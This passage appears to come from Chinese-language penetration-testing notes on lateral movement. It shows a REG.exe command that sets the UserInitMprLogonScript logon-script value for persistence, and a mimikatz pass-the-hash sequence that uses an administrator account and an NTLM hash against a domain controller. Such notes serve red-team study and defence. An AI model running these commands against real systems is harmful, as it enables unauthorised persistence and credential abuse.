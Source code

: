 ```
REG.exe ADD HKEY_CURRENT_USER\Environment /v UserInitMprLogonScript /t REG_SZ /d "c:\run_calc.bat"
```

同时UserInitMprLogonScript的值是可以直接设置为命令的。

![1574328195643](Lateral%20Movement.assets/1574328195643.png)

## Pass the Hash-T1075

Pass the Hash是指通过已经有的HASH值来进行hash传递获得目标主机的访问权限。

例如在其他主机中想要访问0m0a1.com域中的主机dc.0m0a1.com,那么可以使用mimikatz进行PTH的攻击。

![1574328241859](Lateral%20Movement.assets/1574328241859.png)

```
mimikatz#privilege::debug
mimikatz#sekurlsa::pth /user:administrator /domain:0m0a1.com /ntlm: 4cb55ea6471d29ccbb2ce4cf00271fe3
```
